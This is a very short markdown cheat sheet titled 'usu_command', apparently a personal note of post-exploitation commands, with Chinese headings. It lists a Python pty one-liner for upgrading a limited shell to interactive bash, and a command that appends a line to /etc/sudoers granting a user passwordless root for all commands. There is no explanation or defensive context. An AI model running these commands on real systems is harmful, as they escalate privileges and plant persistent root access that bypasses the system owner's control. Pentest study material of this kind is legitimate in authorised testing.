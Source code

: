 # usu_command


## 完整shell
python -c "import pty;pty.spawn('/bin/bash')"


## 加入到sudoer
echo "user ALL=(ALL) NOPASSWD: ALL" >> /etc/sudoers